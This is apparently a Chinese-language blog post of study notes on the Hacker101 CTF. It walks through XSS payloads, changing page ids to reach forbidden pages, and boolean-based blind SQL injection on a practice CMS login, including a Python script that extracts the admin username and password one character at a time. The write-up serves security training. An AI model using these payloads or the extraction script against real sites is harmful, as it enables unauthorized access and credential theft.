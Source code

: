 ```yaml
---
title: "Hacker101"
date: 2019-10-11T16:31:29+08:00
showDate: true
draft: false
tags: ["security","hacker", "ctf"]
categories: ["security"]
---
```


# hacker101学习笔记

## 前言

记录自己在hacker101 ctf的学习笔记


### 第一关 	A little something to get you started (1/1 flag)

第一次接触ctf没什么经验， 各种看网页源代码，看http请求有点像无头苍蝇，后来看了下hint `Take a look at the source for the page`,然后发现了一个没有出现在页面里的style标签

```html
<style>
	body {background-image: url("background.png");}
</style>
```

试了下访问http://domain.com/background.png，报了404，然后试了试在当前目录加上/background.png，解决


### 第二关 	Micro-CMS v1 （4/4 flag) 

#### flag 1

有了第一关的经验，我大概懂了一些套路，第二关给了一个input框一个textarea标签

![2-1](./2-1.png)

大概猜出来应该是考xss，现在input框里试了一下`<script>alert('xss')</script>`，爆出了第一个flag

![2-2](./2-2.png)

#### flag 2

接着在textarea试了试`<script>alert('xss')</script>`, 虽然提交的是script， 看起来是后端把script替换成scrubbed。 

然后试了一下`<BODY onload="alert('XSS')">`，成功爆出flag

![2-3](./2-3.png)

既然是script被过滤的，那就再试试img标签吧。textarea里写了`<IMG SRC="" onerror="alert('XSS')">`，但是好像和上一个算同一个flag

![2-4](./2-4.png)


#### flag 3

在textarea标签里试了很多种xss，但是flag都是一样的，那看起来接下来的问题就不是考xss了。
里面有一个创建page的页面，试着创建了一个page发现创建出来的page的id好像不连续（初始的两个是1、2，创建的是9），试了下访问`/page/3`，报not found，再试了试`/page/4`，报forbidden，看来这里应该有问题，因为每个page都有一个对应的eidt页面`/page/edit/page_id`，试着访问`/page/edit/4`，出了flag

![2-5](2-5.png)

#### flag 4

第四个flag就有点顺了，访问完`/page/edit/4`，想看看有没有注入点，然后试了试`/page/edit/4'`，最后一个flag就这样出了。

![2-6](2-6.png)

#### 参考资料

[常见xss过滤](https://damit5.com/2017/10/15/XSS-%E7%BB%95%E8%BF%87%E5%B8%B8%E7%94%A8%E8%AF%AD%E5%8F%A5/)

### 第三关 Micro-CMS v2 （1/3 flag）

#### flag 1 

这一关一进来就说这是一个之前CMS的升级版本，修复的之前的安全问题，现在edit需要账号密码登录了，看起来是考sql注入吧。
试了试用户名框输入`'`提交，直接报错

```python
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")

```

从这里大概能看出一些信息比如执行的sql语句是

```sql
SELECT password FROM admins WHERE username='';
```

应该是查用户名的密码然后跟提交的比对，然后数据库是mariadb, 表名是admins

接着试

```sql
' or 1 = 1 #
```

然后提示是invalid passsword， 看起来是username被跳过但是密码因为为空所以错误了。

继续尝试

```sql
' or 1 = 1 and 1 > (select count(*) from admins) #
```

返回了unkonwn user， 说明` 1 > (select count(*) from admins) `为`false`，所以admins表里面只有不多于一条数据，接下来用length猜字段长度

```sql
' or 1 = 1 and 1 > (select count(*) from admins where length(username) = 6) #
' or 1 = 1 and 1 > (select count(*) from admins where length(password) = 6) #
```

说明username和password长度都是6

然后是猜每个位置的字母

```sql
' or 1 = 1 and 1 >  (select count(*) from admins where left(username, 1) = 'a')#
```

手动尝试的话也要几百次，于是尝试下用python写个脚本，核心代码如下，功能为检测某个位置的字母是什么

```python
def get_username_word(idx, a):
    '''

    :param idx: 位置
    :param a: 字母
    :return:
    '''
    url = "http://35.227.24.107/ff1706e3ac/login"
    username = "' or 1 = 1 and 1 >  (select count(*) from admins where left(password, {}) = '{}')#".format(idx, a)
    # username = "mollie"
    # password = "jeanne"
    password = ""

    data = {
        "username": username,
        "password": ""
    }
    r = requests.post(url, data=data)
    if not re.search('Invalid password', r.text):
        print(idx, "is", a)
        return True
    else:
        print(idx, "is not", a)
    return False
```

最后跑出结果

```
    # username = "mollie"
    # password = "jeanne"
```

登陆后拿到flag

![2-7](2-7.png)

#### flag 2

拿到第一个flag之后，找了好久，发现目前可访问的url只有

```
/home       200
/page/1     200
/page/2     200
/page/3     401
/login      200
```

里面也没什么重要的信息，然后尝试访问第一个版本存在的`/page/edit/1`，发现直接重定向到了`/login`，login之后也就只有一个flag并没有后续信息，我尝试把flag当cookie访问`/page/edit/1`,结果还是重定向。

![2-8](2-8.png)

好像卡住了，突然没有了方向。再看了一眼第二关的CMS，它好像有个`POST /page/edit/1`，于是我试了一下POST，果然第二个flag在这。

![2-9](2-9.png)


未完待续~



